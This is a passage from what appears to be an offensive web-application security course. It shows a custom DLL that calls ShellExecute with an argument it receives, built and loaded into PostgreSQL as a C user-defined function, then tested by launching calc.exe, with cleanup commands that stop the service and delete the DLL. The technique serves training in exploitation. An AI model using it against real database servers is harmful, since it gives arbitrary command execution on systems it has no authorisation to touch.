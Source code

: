 ```
30:         ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
31:     }
32: 	PG_RETURN_VOID();
33: }
```
Listing 42 - Sample code to get you started


 Build > Build Solution in Visual Studio.
```
------ Build started: Project: awae, Configuration: Release Win32 ------
   Creating library C:\Users\Administrator\source\repos\awae\Release\awae.lib and object C:\Users\Administrator\source\repos\awae\Release\awae.exp
Generating code
Finished generating code
All 3 functions were compiled because no usable IPDB/IOBJ from previous compilation was found.
rs.vcxproj -> C:\Users\Administrator\source\repos\awae\Release\awae.dll
Done building project "rs.vcxproj".
========== Rebuild All: 1 succeeded, 0 failed, 0 skipped ==========
```
Listing 43 - Building the new extension

Testing the Extension
In order to test our newly-built extension, we need to first create a UDF. We can look back on Listing 40 to remind ourselves how to create a custom function in PostgreSQL.

For example, the following queries will create and run a UDF called test, bound to the awae function exported by our custom DLL. Note that we have moved the DLL file to the root of the C drive for easier command writing.
```
amdb# \df test

create or replace function test(text, integer) returns void as $$C:\awae.dll$$, $$awae$$ language C strict;
SELECT test($$calc.exe$$, 3);
```
Listing 44 - The code to load the extension and run the test function

Checking for calc.exe :
```
tasklist | findstr /i calc
taskkill /f /IM calc.exe
```

```
net stop "Applications Manager"

del c:\awae.dll

net start "Applications Manager"

DROP FUNCTION test(text, integer);

\df test

```
##### Loading the Extension from a Remote Location

